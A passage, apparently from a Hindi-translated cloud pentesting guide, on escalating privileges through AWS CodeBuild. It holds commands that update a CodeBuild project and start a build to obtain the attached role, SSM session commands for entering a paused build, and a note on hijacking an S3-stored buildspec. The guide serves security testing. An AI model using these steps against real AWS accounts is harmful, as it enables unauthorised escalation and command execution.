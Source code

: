```sh
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
\"computeType\": \"BUILD_GENERAL1_SMALL\",
\"imagePullCredentialsType\": \"CODEBUILD\"
}
}"

# Note how it's used a image from AWS public ECR instead from docjerhub as dockerhub rate limits CodeBuild!

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
{% endcode %}
{% endtab %}
{% endtabs %}

**संभावित प्रभाव:** संलग्न AWS Codebuild भूमिकाओं के लिए सीधा वृद्धि।

### SSM

**एक SSM सत्र शुरू करने के लिए पर्याप्त अनुमतियाँ** होने पर **कोडबिल्ड परियोजना** में पहुंचना संभव है जो निर्माण किया जा रहा है।

कोडबिल्ड परियोजना में एक ब्रेकप्वाइंट होना चाहिए:

<pre class="language-yaml"><code class="lang-yaml">phases:
pre_build:
commands:
- echo Entered the pre_build phase...
- echo "Hello World" > /tmp/hello-world
<strong>      - codebuild-breakpoint
</strong></code></pre>

और फिर:
```bash
aws codebuild batch-get-builds --ids <buildID> --region <region> --output json
aws ssm start-session --target <sessionTarget> --region <region>
```
For more info [**दस्तावेज़ देखें**](https://docs.aws.amazon.com/codebuild/latest/userguide/session-manager.html).

### (`codebuild:StartBuild` | `codebuild:StartBuildBatch`), `s3:GetObject`, `s3:PutObject`

एक हमलावर जो एक विशिष्ट CodeBuild परियोजना का निर्माण/पुनरारंभ कर सकता है जिसने अपनी `buildspec.yml` फ़ाइल को एक S3 बकेट पर संग्रहित किया है जिसमें हमलावर को लेखन अधिकार है, वह CodeBuild प्रक्रिया में कमांड निष्पादन प्राप्त कर सकता है।
